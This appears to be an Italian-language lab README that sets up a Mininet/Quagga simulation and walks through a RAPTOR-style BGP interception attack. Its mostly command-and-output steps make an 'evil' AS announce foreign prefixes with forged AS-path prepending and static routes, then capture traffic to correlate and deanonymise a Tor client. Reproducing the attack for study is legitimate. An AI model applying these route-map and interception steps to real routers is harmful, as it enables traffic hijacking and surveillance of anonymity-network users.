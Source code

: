 # bgp-raptor-attack

## Installazione VM

Scaricare la VM Mininet [http://www.scs.stanford.edu/~jvimal/mininet-sigcomm14/mininet-tutorial-vm-64bit.zip](http://www.scs.stanford.edu/~jvimal/mininet-sigcomm14/mininet-tutorial-vm-64bit.zip).  
Per accedere:

- username: mininet
- password: mininet

## Preparazione mininet

- `$ cd ~`

- `$ git clone https://github.com/mininet/mininet`

- `$ cd mininet`

- `$ git checkout 2.3.0d4`

- `$ ./util/install.sh -a`

- `$ mn --test pingall`

- `$ mn --version`

## Quagga preparation

Scaricare quagga-1.2.4 from [http://download.savannah.gnu.org/releases/quagga/](http://download.savannah.gnu.org/releases/quagga/) nella tua `$HOME` ed estrai il package

- `$ cd ~/quagga-1.2.4`

- `# chown mininet:mininet /var/run/quagga`

- modifica il file `configure`, aggiungendo `${quagga_statedir_prefix}/var/run/quagga` prima di tutte le opzioni del loop su `QUAGGA_STATE_DIR` 

- `$ ./configure --enable-user=mininet --enable-group=mininet`

- `$ make`

---

## Esecuzione dell'attacco

![topology](./stuff/bgp_raptor_attack_topology.png)

**. Avviare l'ambiente di simulazione**

Eseguo lo script per avviare le istanze degli AS e degli host.

`# python bgp.py`


**. Controllare il percorso del traffico destinato al guard relay**

In un altro terminale avvio una sessione con il daemon `bgpd` dell'AS1.
La password di accesso è `en`.

`$ ./connect-bgpd.sh R1`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Verifico quale AS_PATH R1 sceglie per raggiungere il guard relay G attestato su 12.2.0.1, lanciando il comando:

`bgpd-R1# show ip bgp 12.2.0.1`

L'output sarà simile al seguente.

	BGP routing table entry for 12.2.0.0/23
	Paths: (2 available, best #2, table Default-IP-Routing-Table)
	  Advertised to non peer-group peers:
	  5.0.0.2
	  5 2
		5.0.0.2 from 5.0.0.2 (5.5.5.5)
		  Origin IGP, localpref 100, valid, external
		  Last update: Sat Jun 22 13:28:01 2019

	  2
		2.0.0.2 from 2.0.0.2 (2.2.2.2)
		  Origin IGP, metric 0, localpref 100, valid, external, best
		  Last update: Sat Jun 22 13:27:57 2019

Posso osservare che AS1 inoltra il traffico direttamente verso l'AS2.
Specularmente, R6 inoltra il traffico proveniente dall'exit relay E e destinato al server S direttamente verso l'AS4.

**. Lanciare il Man-in-the-middle attack**

In un altro terminale avvio una sessione con il daemon `bgpd` dell'AS3.
La password di accesso è `en`.

`$ ./connect-bgp.sh R3`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Impongo le route-map.

	bgpd-R3# configure terminal
	bgpd-R3(config)# ip prefix-list evil-prefix-list-12-2 permit 12.2.0.0/24
	bgpd-R3(config)# ip prefix-list evil-prefix-list-12-3 permit 12.3.0.0/24
	bgpd-R3(config)# ip prefix-list evil-prefix-list-14 permit 14.1.0.0/24
	bgpd-R3(config)# route-map evil-route-map-12-2 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-12-2
	bgpd-R3(config-route-map)#    set as-path prepend 2
	bgpd-R3(config-route-map)# route-map evil-route-map-12-2 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# route-map evil-route-map-12-3 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-12-3
	bgpd-R3(config-route-map)#    set as-path prepend 2
	bgpd-R3(config-route-map)# route-map evil-route-map-12-3 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# route-map evil-route-map-14 permit 10
	bgpd-R3(config-route-map)#    match ip address prefix-list evil-prefix-list-14
	bgpd-R3(config-route-map)#    set as-path prepend 4
	bgpd-R3(config-route-map)# route-map evil-route-map-14 permit 20
	bgpd-R3(config-route-map)#    exit
	bgpd-R3(config)# router bgp 3
	bgpd-R3(config-router)#   network 12.2.0.0/24
	bgpd-R3(config-router)#   network 12.3.0.0/24
	bgpd-R3(config-router)#   network 14.1.0.0/24
	bgpd-R3(config-router)#   neighbor 6.0.0.1 route-map evil-route-map-12-2 out
	bgpd-R3(config-router)#   neighbor 6.0.0.1 route-map evil-route-map-12-3 out
	bgpd-R3(config-router)#   neighbor 12.0.0.2 route-map evil-route-map-14 out
	bgpd-R3(config-router)#   exit
	bgpd-R3(config)# exit

In un altro terminale avvio una sessione con il daemon `zebra` dell'AS3.
La password di accesso è `en`.

`$ ./connect-zebra.sh R3`

Per accedere alla shell di amministratore lancio il comando `enable`; la password è `en`.
Impongo le rotte statiche per instradare il traffico destinato ai prefissi IP sotto attacco.

	R3# configure terminal
	R3(config)# ip route 12.2.0.0/24 6.0.0.1
	R3(config)# ip route 12.3.0.0/24 6.0.0.1
	R3(config)# ip route 14.1.0.0/24 12.0.0.2
	R3(config)# exit

**. Ricontrollare il percorso del traffico destinato al guard relay**

Nel terminale con il daemon `bgpd` dell'AS1 rilancio l'ultimo comando.
L'output sarà simile al seguente.

	BGP routing table entry for 12.2.0.1
	Paths: (2 available, best #2, table Default-IP-Routing-Table)
	  Advertised to non peer-group peers:
	  2.0.0.2
	  2 5 3
		2.0.0.2 from 2.0.0.2 (2.2.2.2)
		  Origin IGP, localpref 100, valid, external
		  Last update: Sat Jun 22 13:47:42 2019

	  5 3
		5.0.0.2 from 5.0.0.2 (5.5.5.5)
		  Origin IGP, localpref 100, valid, external, best
		  Last update: Sat Jun 22 13:47:39 2019

Posso osservare che durante l'attacco AS1 inoltra il traffico secondo l'AS_PATH AS5, AS3.
Specularmente, R6 inoltra il traffico secondo l'AS_PATH AS5, AS3.

**. Monitorare il traffico**

In altri due terminali separati lancio i seguenti comandi:

`./R3-tcpdump-eth4.sh`

`./R3-tcpdump-eth5.sh`

**. Generare il traffico di prova**

Dal menu di scelta proposto dallo script lanciato al primo passo, scelgo la seconda opzione (`2 - wget over torsocks`).
Lo script lancia sul client C `torsocks` che fa da wrapper a `wget` in modo che recuperi l'home page esposta dal server S tramite la rete Tor.

`> 2`

I TCP ACK che ottengo dagli script lanciati al passo precedente consentono di fare un'analisi di correlazione finalizzata all'individuazione dell'identità del client C che accede al server S.

